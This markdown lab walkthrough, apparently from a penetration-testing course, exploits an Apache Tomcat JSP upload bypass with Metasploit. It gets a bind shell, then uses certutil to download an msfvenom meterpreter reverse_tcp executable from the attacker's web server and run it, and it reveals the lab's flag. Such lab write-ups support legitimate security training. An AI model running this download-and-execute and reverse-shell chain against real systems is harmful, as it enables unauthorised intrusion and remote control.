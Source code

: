 # 🔬Tomcat - MSF Exploit

## Lab 1

>  🔬 [Windows: Java Web Server](https://attackdefense.com/challengedetails?cid=1948)
>
>  - Target IP: `10.2.24.113`
>  - Exploit the target with the appropriate Metasploit Framework module
>  - [Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution](https://www.exploit-db.com/exploits/42966)

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.24.113
setg RHOST 10.2.24.113
workspace -a TOMCAT
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sS -sV -O 10.2.24.113
```

![db_nmap -sS -sV -O 10.2.24.113](3-metasploitassets/image-20230416120211695.png)

- Try tomcat from a browser
  - `http://10.2.24.113:8080/`

```bash
services
search type:exploit tomcat_jsp
use exploit/multi/http/tomcat_jsp_upload_bypass
info
# Description:
#  This module uploads a jsp payload and executes it.
check
run
```

- Or use a specific payload

```bash
set payload java/jsp_shell_bind_tcp
options
set SHELL cmd
run
```

- A CMD shell session is provided

```bash
cd /
type flag.txt
```

<details>
<summary>Reveal Flag: 🚩</summary>


`92d60a06d0ea2179c9a8c442c0bd0bc0`

![](3-metasploitassets/image-20230416121023113.png)

</details>



- Obtain a `Meterpreter` session

```bash
background
sessions
```

- Generate a Windows `meterpreter` payload. Open a new terminal tab

```bash
ip -br -c a

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.18.2 LPORT=1234 -f exe > meterpreter.exe
```

```bash
sudo python3 -m http.server 80
```

- In the first `msfconsole` tab

```bash
sessions
sessions 2

certutil -urlcache -f http://10.10.18.2/meterpreter.exe meterpreter.exe
```

- Terminate the python web server and set up the handler in the second tab

```bash
vim handler.rc
# Insert the following lines

use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.18.2
set LPORT 1234
run

# Save it and exit
```

```bash
msfconsole -r handler.rc
```

- Execute the `meterpreter.exe` on the target system

```bash
.\meterpreter.exe
```

- Reverse `Meterpreter` session will be opened.

------

